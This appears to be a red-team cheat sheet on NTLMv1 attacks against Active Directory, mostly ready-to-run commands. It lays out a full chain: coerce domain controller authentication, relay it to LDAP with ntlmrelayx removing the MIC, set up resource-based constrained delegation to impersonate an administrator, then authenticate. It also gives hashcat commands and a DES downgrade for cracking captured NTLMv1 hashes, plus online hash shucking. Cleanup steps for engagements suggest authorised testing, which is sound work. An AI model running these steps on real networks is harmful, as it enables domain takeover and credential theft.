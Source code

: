 # NTLMv1

## Relaying NTLMv1

### LDAP

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- The other Domain Controller with a LanMan Compatability setting at or less than '4' (Relay Target)(Requires verification. Lab results suggest a value of '5' still works for NTLM through LDAP?)

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- LDAP Channel Binding and Signing both not enforced
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
sudo impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```

#### Cleanup

- The system we relay to (Ntlmrelayx target) has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements

```powershell
# Run in elevated PowerShell
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }
```
- Ensure the created machine account is removed at the end of the engagement
```powershell
# Run in elevated PowerShell
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```